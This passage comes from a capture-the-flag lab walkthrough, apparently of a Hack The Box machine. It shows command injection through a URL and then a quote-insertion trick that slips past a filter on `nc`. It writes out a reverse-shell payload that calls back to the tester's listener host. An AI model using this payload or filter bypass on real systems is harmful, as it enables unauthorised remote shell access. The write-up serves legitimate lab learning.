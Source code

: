 You can see, I have chained `id` command to the url and the output of the command is shown in the response.

Great. We can inject commands now.

Let us now check if we can get a shell.

![](assets/img/haircut-htb/web-9.png)

When I tried to use `nc` to get a reverse shell, it says we can not use it. Probably, there is a sort of filtering going on.

Let us see if we can bypass the filters.

There is a cheatsheet on command injection filter bypass on github. You can find it [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection).

There is a way in which we insert quotations around the letters of the filtered keyword to bypass the filtering.

So, our payload will become : `n"c" 10.10.14.13 443 -e /bin/sh`. 

Set up a listener and see if this works.

![](assets/img/haircut-htb/web-10.png)
